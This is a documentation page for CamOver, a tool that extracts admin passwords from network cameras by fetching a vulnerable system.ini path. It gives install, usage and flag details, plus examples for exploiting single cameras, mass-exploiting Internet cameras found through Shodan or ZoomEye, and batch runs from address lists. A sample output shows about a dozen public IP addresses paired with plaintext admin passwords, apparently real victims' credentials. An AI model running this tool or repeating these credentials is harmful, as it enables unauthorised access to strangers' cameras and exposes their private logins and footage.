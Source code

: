 ```yaml
---
title : "CamOver"
# pre : ' '
description : "CamOver is a camera exploitation tool that allows to disclosure network camera admin password."
date : 2021-07-06T11:40:36+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CamOver

Is a camera exploitation tool that allows to disclosure network camera admin password.

**Features:**

* Exploits vulnerabilities in most popular camera models such as CCTV, GoAhead and Netwave.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

Tool effectively looks for `http://{address}/system.ini?loginuse&loginpas` and reads the `username:password` plaintext from the `system.ini` file.

## Installation

```plain
python3 -m pip install git+https://github.com/EntySec/CamOver
```

## Usage

```plain
camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

## Flags

```plain
CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

## Examples

#### Exploiting single camera

Let's hack my camera just for fun.

```plain
camover -a 192.168.99.100
```

#### Exploiting cameras from Internet

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```plain
camover -t --shodan [API-KEY]
```

```plain
$ camover -t --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (84.99.151.248:81) - admin:SFR_2E98
[+] (37.116.187.4:81) - admin:Bebbo000
[+] (42.118.152.148:80) - admin:admin
[+] (37.108.23.82:99) - admin:Misiek22!
[+] (59.29.194.241:81) - admin:core7772
[+] (212.127.221.137:80) - admin:quercus2403
[+] (118.71.30.128:80) - admin:admin
[+] (201.188.20.77:80) - admin:216828103
[+] (86.41.122.211:88) - admin:IPCAM
[+] (187.155.117.123:80) - admin:123456
[+] (151.63.22.212:81) - admin:242893
[+] (200.126.178.171:81) - admin:888888
```

#### Exploiting cameras from input file

Let's try to use opened database of cameras with -t for fast exploitation.

```plain
camover -t -i cameras.txt -o passwords.txt
```

NOTE: It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## URL List

* [Github.com - CamOver](https://github.com/EntySec/CamOver)
